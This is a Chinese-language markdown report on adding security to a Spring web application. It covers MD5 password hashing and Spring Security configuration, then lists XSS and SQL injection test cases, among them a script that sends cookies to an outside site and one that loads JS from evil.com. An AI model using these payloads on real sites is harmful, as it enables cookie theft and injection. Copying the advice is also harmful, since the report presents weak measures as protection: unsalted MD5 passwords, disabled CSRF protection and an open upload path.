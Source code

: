 # 为Web应用添加安全性防护策略

## MD5

​	数据库中的所有账户的密码都用MD5进行哈希

## Spring Security

​	Spring Security 基于 Spring 框架，提供了一套 Web 应用安全性的完整解决方案。一般来说，Web 应用的安全性包括用户认证（Authentication）和用户授权（Authorization）两个部分。这两个部分，Spring Security 框架都有很好的支持。 

#### 用户认证

​	用户认证指的是验证某个用户是否为系统中的合法主体，也就是说用户能否访问该系统。用户认证一般要求用户提供用户名和密码。系统通过校验用户名和密码来完成认证过程。 

​	Spring Security 框架支持主流的认证方式，包括 HTTP 基本认证、HTTP 表单验证、HTTP 摘要认证、OpenID 和 LDAP 等。 

​	通过重写 configure 方法设置用户认证

```java
protected void configure(AuthenticationManagerBuilder auth) throws Exception
{
    auth.userDetailsService(customUserService()).passwordEncoder(new PasswordEncoder()
    {
        @Override
        public String encode(CharSequence charSequence)
        {
            return MD5Util.encode((String) charSequence);
        }

        @Override
        public boolean matches(CharSequence charSequence, String s)
        {
            return s.equals(MD5Util.encode((String) charSequence));
        }
    });
}
```

#### 用户授权

​	用户授权指的是验证某个用户是否有权限执行某个操作。在一个系统中，不同用户所具有的权限是不同的。 系统会为不同的用户分配不同的角色，而每个角色则对应一系列的权限。 

​	Spring Security 提供了基于角色的访问控制和访问控制列表（Access Control List，ACL），可以对应用中的领域对象进行细粒度的控制。 

​	通过重写 configure 方法设置用户授权

```java
protected void configure(HttpSecurity http) throws Exception
{
    http.authorizeRequests()
//                .antMatchers("**").permitAll()
            .antMatchers("/login/**", "/register/**", "/register.html").permitAll()
//                .antMatchers( "/mplayer.html", "/vplayer.html", "/file/**", "/video/**", "/music/**").permitAll()
            .antMatchers("/businesscard", "/card", "/card/**").permitAll()
            .antMatchers(HttpMethod.GET, "/businessCard").permitAll()
            .antMatchers("/register").permitAll()
            .antMatchers("/upload/**").permitAll()
            .antMatchers("/player", "/video/**", "/music/**").permitAll()
            .anyRequest().authenticated()
            .and()
            .formLogin()
            .usernameParameter("username")
            .passwordParameter("password")
            .loginPage("/login")
            .successForwardUrl("/main")
            .failureUrl("/login?error").permitAll()
            .and()
            .csrf().disable();
}
```

# 补充完善安全性测试

## xss测试用例

1. xss攻击：跨站脚本攻击。是指攻击者在嵌入客户端脚本，当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击的目的。如获取用户的cookie，导航到恶意网站，携带木马等。

2. xss攻击危害：

   1. 可以盗取各类用户账号。

     2. 控制数据

   2. 强行发送电子邮件

   3. 控制受害者及其向其他网站发起攻击

3、测试用例：

1. `<script>alert(1);</script>`

2. 反射类漏洞测试：

   `<form method="get"></form>` 即将提交表单改为get方式提交来获取用户名和密码。

  3、存储式漏洞：

​	`<Script>window.location.href='http://www. .com'/?cookie'+document.cookie</script>`

​	此用例用于截获cookie信息，黑客可以将攻击脚本上传到web服务器上，是的所有访问该页面的    用户都面临信息泄露。此用例用于获取用户的cookie信息到黑客自己的网站上。

 4、`<script src="http://www.evil.com/file.js"></script>` 

​	运行黑客写的js脚本。

## sql注入

1、所谓的sql注入，就是将sql命令插入到web表单提交到后台，最终达到欺骗服务器执行恶意的sql命令。

2、测试用例：

​	(1)   `<select * from user where username="or 1=1#"and password=md5("")`  将后面的sql条件注释掉

​	(2)`and 2=2`

​	(3)`and (select count(*) from sysobjects)>0`  



